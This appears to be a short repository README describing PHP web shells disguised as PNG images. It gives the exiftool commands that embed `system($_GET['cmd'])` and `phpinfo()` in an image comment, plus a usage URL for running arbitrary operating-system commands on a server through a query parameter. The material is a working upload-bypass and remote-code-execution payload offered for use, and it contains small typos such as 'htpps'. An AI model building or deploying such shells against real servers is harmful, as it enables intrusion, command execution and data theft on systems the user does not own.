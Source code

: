 ## h_cmd.png.php
### How to use
```
view-source:htpps://<url>/h_cmd.png.php?cmd=<url_encoded_os_command>
```
**Tip** - Use https://www.urlencoder.org/ for url encoding
### How it was created
```
exiftool -comment="<?php echo PHP_EOL . '========================================' . PHP_EOL; echo system(\$_GET['cmd']); echo PHP_EOL . '========================================' . PHP_EOL; ?>" h_clean.png -o h_cmd.png.php
```
---
## h_phpinfo.png.php
### How it was created
```
exiftool -comment="<?php phpinfo(); ?>" h_clean.png -o h_phpinfo.php
```
